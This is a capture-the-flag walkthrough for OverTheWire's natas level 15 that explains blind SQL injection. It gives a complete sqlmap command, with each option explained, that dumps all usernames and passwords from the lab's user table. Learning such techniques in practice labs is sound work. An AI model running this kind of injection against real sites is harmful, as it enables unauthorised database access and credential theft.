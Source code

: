 Here we have an SQL query that takes unsanitized inputs, like the previous level. Unlike the last level, the output of the database is not rendered to the webpage. We simply get generic messages as to whether or not the user exists. This tells us that we'll need to perform a Blind SQL attack on the site. 

A Blind SQL attack is used when the output of the database is not rendered to the webpage. The attack asks many true/false questions of the database and determines the answer to these questions based on the response from the database.

Looking at the code, we can see the two responses to any queries made: if query returns a result it outputs, "This user exists." to the page, otherwise it outputs, "This user doesn't exist." to the page.

Here I'll show two ways to get the next password. One uses [sqlmap](https://sqlmap.org/), a popular tool to perform the attack for you, the other is a Python script that shows what is really going on behind the scene in sqlmap. Both are valid ways to solve this problem. 

You'll need the supply the credentials to the current level for either solution. You may also wish to adjust the thread count.

### sqlmap
The sqlmap tool is capable of a wide range of attacks and can be used to determine a lot of the information that is supplied below. Since we're in the unique position of having the source code for the site, we can fill in a lot of this information without having to resort to teasing the information out of the site.

```
sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas15:A------------------------------J --string="This user exists" --data="username=natas16" --level=3 --risk=1 --technique=B --threads=4 --dbms=MySQL -D natas15 -T users -C username,password --dump --batch
```

Here's a breakdown of each option:
```
-u              URL
--auth-type     HTTP authentication
--auth-cred     HTTP authentication credentials (name:password)
--string        The site reponse to a TRUE condition
--data          Data string to be sent
--level         Number of checks to be performed. 
                Range is 1 to 5. Default is 1.
--risk          Types of payloads to use. Higher numbers could cause problems for the server. 
                Range is 1 to 3.  Default is 1.
--technique     B is for Blind
--threads       Max number of concurrent HTTP(s) requests
--dbms          DataBase Management System 
-D              Database name        
-T              Table name
-C              Column name(s)
--dump          Dump DBMS database table entries
--batch         Never ask for user input, use the default behaviour
```

The sqlmap tool will run for a couple minutes and will return with the username and password for all users on the server, including natas16. Use the natas16 password to access the next level.
